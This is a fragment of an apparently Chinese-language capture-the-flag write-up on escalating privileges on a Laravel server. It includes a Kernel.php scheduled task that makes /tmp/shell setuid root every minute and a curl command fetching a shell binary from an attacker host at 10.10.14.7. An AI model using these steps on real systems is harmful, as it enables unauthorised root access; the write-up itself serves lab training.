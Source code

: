 crontab -l
crontab -e 打开用户的cron job.

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/7.PNG)

root      1102     1  0 10:35 ?        00:00:00 /usr/sbin/cron -f

通过上传LinEnum.sh，运行后发现，可以尝试破解密文。
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/8.PNG)


![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/9.PNG)

#### Kernel.php
find / -name Kernel.php 2>/dev/null

/var/www/laravel/app/Console/Kernel.php

```
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
	$schedule->exec('chown root:root /tmp/shell;chmod 4777 /tmp/shell')->everyMinute();
    }

    /**
     * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```
curl http://10.10.14.7/cat -o shell
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-16/13.PNG)
